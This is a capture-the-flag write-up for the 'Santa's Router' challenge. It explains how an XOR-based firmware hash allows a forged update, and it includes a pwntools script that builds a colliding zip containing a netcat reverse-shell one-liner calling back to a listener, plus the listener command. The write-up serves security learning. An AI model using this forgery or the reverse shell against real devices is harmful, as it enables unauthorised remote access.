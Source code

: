 # [HV23.13] Santa's Router

## Introduction

Difficulty: Medium<br>
Author: Fabi_07

Santa came across a weird service that provides something with signatures of a firmware. He isn't really comfortable with all that crypto stuff, can you help him with this?

## Solution

A router with firmware update capabilities, how nice of Santa.

After checking the source code for some time, I realized that the `hasFile` function, had a serious flaw, it always `XOR`'ed 8-byte chunks to the current hash.

```py
def hashFile(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash
```

This means we can craft a zip archive, pad it to `// 8` and then add the 8 bytes of "hash difference" with swapped endianess to the zip file.

```py
import base64
import io
import zipfile
from pwn import *
from chall import hashFile

HOST = "152.96.15.2"
PORT = 1337
script = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.0.10 4444 >/tmp/f"

script_file = io.BytesIO(script.encode("utf-8"))
zip_file = io.BytesIO()
with zipfile.ZipFile(zip_file, 'w', zipfile.ZIP_DEFLATED) as archive:
    archive.writestr('start.sh', script_file.getvalue())

zip_bytes = zip_file.getvalue()
if len(zip_bytes) % 8 != 0:
    zip_bytes = zip_bytes + b"\x00" * (8 - (len(zip_bytes) % 8))

original_hash = hashFile(open('santas-router-source/firmware.zip', 'rb').read()).to_bytes(8)
cur_hash = hashFile(zip_bytes).to_bytes(8)
append_data = b''.join([(t^p).to_bytes(1) for t, p in zip(original_hash, cur_hash)])[::-1]
zip_bytes += append_data
encoded_zip = base64.b64encode(zip_bytes)

conn = remote(HOST, PORT)

conn.recvuntil(b"$ ")
conn.sendline(b"version")
version_line = conn.recvuntil(b"$ ")
signature = version_line.strip().splitlines()[0].split()[-1]
conn.sendline(b"update")
conn.recvuntil(b"> ")
conn.sendline(encoded_zip)
conn.recvuntil(b"> ")
conn.sendline(signature)
data = conn.recvuntil(b"$ ").splitlines()[0]
status_code = int(data.split()[-1])
success(f"{data.splitlines()[0].decode()} {chr(status_code)}")
conn.close()
```

Open up a listener using `nc -nvlp 4444`

The script gives us a reverse shell after executing, we can now print the flag.

Flag: `HV23{wait_x0r_is_not_a_secure_hash_function}`